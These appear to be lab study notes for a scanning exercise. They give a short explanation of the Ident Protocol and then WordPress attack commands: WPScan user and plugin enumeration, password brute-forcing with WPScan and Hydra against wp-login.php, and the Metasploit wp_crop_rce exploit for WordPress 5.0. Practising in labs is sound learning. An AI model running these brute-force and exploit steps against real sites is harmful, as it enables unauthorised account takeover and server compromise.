

---
---

# IML - Scanning: Demonstrate Your Skills

The Ident Protocol is used over the Internet to associate a TCP connection with a specific user. Originally designed to aid in network management and security, it operates by allowing a server to query a client on port 113 to request information about the user of a particular TCP connection




Target 2


```bash
#Run a Basic WPScan
wpscan --url http://yourwebsite.com

#Scan for Themes and Plugins
wpscan --url http://yourwebsite.com --enumerate at
wpscan --url http://yourwebsite.com --enumerate ap

#Enumerate WordPress Users
wpscan --url http://yourwebsite.com --enumerate u

#Bruteforce a WordPress Login Password
wpscan --url http://yoursite.com --passwords path-to-wordlist --usernames <list of usernames or just one>

#Bruteforce a WordPress Login Password - Hydra
hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt <IP_ADDRESS> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

**<u>Wordpress 5.0 exploit</u>**

**Need a username and password to use**

msfconsole > multi/http/wp_crop_rce
Now just set the options (USERNAME, PASSWORD, RHOSTS, LHOST) and exploit

